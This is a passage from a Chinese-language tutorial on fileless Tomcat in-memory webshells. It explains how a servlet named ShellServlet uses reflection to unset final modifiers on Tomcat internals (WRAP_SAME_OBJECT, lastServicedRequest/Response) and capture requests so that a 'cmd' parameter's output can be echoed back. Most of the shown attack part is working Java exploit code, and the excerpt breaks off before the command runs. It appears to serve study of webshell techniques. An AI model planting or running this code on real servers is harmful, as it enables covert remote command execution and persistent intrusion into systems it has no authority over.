 ![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_39_5fCaJOEk.png)

这样当我们第二次访问的时候将 response 从 lastServicedResponse 中取出来，然后将我们命令执行的结果直接写在 response 里面就可以了
在这里我们先使用一个servlet来本地尝试一下：

1. 第一次访问利用反射修改特定参数，从而将 request 和 response 存储到 lastServicedRequest 和 lastServicedResponse 中
2. 第二次访问将我们需要的 request 和 response 取出，从而将结果写入 response 中从而达到回显目的

创建一个Servlet，在web.xml里声明name，和path
```java
package com.fastjson.test;

import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.Writer;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

@WebServlet("/echo")
@SuppressWarnings("all")
public class ShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try{
            Class applicationDispatcher = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            Field WRAP_SAME_OBJECT_FIELD = applicationDispatcher.getDeclaredField("WRAP_SAME_OBJECT");
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);
            // 利用反射修改 final 变量 ，不这么设置无法修改 final 的属性
            Field f0 = Class.forName("java.lang.reflect.Field").getDeclaredField("modifiers");
            f0.setAccessible(true);
            f0.setInt(WRAP_SAME_OBJECT_FIELD,WRAP_SAME_OBJECT_FIELD.getModifiers()& ~Modifier.FINAL);

            Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            Field lastServicedRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = applicationFilterChain.getDeclaredField("lastServicedResponse");
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);
            f0.setInt(lastServicedRequestField,lastServicedRequestField.getModifiers()& ~Modifier.FINAL);
            f0.setInt(lastServicedResponseField,lastServicedResponseField.getModifiers()& ~Modifier.FINAL);

            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(applicationFilterChain);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(applicationFilterChain);

            String cmd = lastServicedRequest!=null ? lastServicedRequest.get().getParameter("cmd"):null;

```